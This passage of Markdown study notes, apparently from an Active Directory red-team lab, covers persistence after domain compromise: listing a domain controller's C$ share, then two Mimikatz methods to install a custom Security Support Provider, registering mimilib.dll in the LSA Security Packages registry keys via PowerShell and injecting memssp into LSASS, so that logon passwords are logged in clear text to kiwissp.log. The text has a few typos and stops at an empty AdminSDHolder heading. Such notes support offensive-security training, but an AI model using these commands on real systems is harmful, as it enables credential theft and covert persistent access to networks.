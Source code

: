 ### <span style="color:#F1C232">5. Now we can run commands on the DC</span>

```powershell
ls \\dcorp-dc\c$
```

# <span style="color:lightblue">Custom Security Support Provider (SSP)</span>

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are
* NTLM
* Kerberos
* Wdigest
* CredSSP

Mimikatz provides a custom SSP - mimilib.dll. The SSP logs start from the **next reboot** of the machine. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

## <span style="color:lightgreen">Mimikatz (How to setup the SSP)</span>

### <span style="color:#F1C232">Method 1</span>
 
Drop the mimilib.dll to system32 and add mimilib to `"HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages"`
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Ccontrol\Lsa\OSconfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\control\Lsa\OSconfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\control\Lsa\ -Name 'Security Packages' -Value $packages
```
### <span style="color:#F1C232">Method 2</span>

Using mimikatz, inject into Isass (Not stable with Server 2016):

```powershell
Invoke-Mimikatz -Command '"misc::memssp"' 
```

> Now you can view all the local logo n logs with the credentials in `C:\Windows\System32\kiwissp.log`
{: .prompt-tip }

# <span style="color:lightblue">ACL - AdminSDHolder</span>
